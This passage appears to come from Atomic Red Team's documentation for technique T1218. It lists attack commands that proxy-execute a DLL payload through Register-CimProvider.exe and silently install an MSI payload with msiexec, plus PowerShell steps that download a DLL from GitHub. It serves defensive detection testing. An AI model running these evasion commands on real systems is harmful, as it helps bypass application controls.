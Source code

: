 #### Attack Commands: Run with `command_prompt`!

```cmd
C:\Windows\SysWow64\Register-CimProvider.exe -Path #{dll_payload}
```

#### Dependencies:  Run with `powershell`!

##### Description: T1218-2.dll must exist on disk at specified location (#{dll_payload})

##### Check Prereq Commands:

```powershell
if (Test-Path #{dll_payload}) {exit 0} else {exit 1} 
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path #{dll_payload}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218/src/Win32/T1218-2.dll" -OutFile "#{dll_payload}"
```

<br/>
<br/>

## Atomic Test #4 - Msiexec.exe - Execute Local MSI file

Execute arbitrary MSI file. Commonly seen in application installation. The MSI opens notepad.exe when sucessfully
executed.

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| msi_payload | MSI file to execute | Path | PathToAtomicsFolder&#92;T1218&#92;src&#92;Win32&#92;T1218.msi|

#### Attack Commands: Run with `command_prompt`!

```cmd
msiexec.exe /q /i "#{msi_payload}"
```

#### Dependencies:  Run with `powershell`!

##### Description: T1218.msi must exist on disk at specified location (#{msi_payload})

##### Check Prereq Commands:

```powershell
if (Test-Path #{msi_payload}) {exit 0} else {exit 1} 
```
